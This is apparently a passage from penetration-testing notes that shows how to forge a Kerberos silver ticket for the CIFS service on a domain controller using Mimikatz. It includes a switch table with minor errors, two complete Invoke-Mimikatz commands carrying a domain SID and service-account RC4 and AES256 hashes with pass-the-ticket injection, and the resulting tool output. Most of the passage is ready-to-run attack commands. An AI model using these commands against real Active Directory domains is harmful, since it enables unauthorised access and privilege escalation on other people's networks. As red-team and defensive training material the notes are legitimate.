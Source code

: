 ## Mimikatz (Method-01)

From the workstation we are able to make use of Mimikatz to forge a silver ticket using the NTLM machine account for the DC.

#### Command Breakdown

| Switch           | Description                                           |
| ---------------- | ----------------------------------------------------- |
| kerberos::golden | Module name                                           |
| /domain:         | Domain FQDN                                           |
| /sid:            | Domain SID                                            |
| /target:         | Target FQDN                                           |
| /service:        | SPN name of service to create TGS for                 |
| /rc4:            | NTLM  / RC4 hash of the service account (DC01)        |
| /aes265:         | AES265 hash if /rc4: is not going to be used          |
| /user:           | Username for which the TGT is generated (Can be fake) |
| /ptt             | Injects ticket into current process                   |

{% code title="Input (RC4)" overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /target:dc01.security.local /service:CIFS /rc4:53b82af68b0faf6587971fe807fad960 /user:Viper /ptt"'
```
{% endcode %}

{% code title="Input (AES265)" overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /target:dc01.security.local /service:CIFS /aes256:4d8daf60cf15651b283c9c180b04d4bd68a5b06592c0007697ae8de0700a21d5 /user:Viper /ptt"'
```
{% endcode %}

<pre data-title="Output"><code><strong>User      : Viper
</strong>Domain    : security.local (SECURITY)
SID       : S-1-5-21-3601687231-1513629788-1757802677
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 53b82af68b0faf6587971fe807fad960 - rc4_hmac_nt
Service   : CIFS
Target    : dc01.security.local
Lifetime  : 09/02/2023 13:21:08 ; 06/02/2033 13:21:08 ; 06/02/2033 13:21:08
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
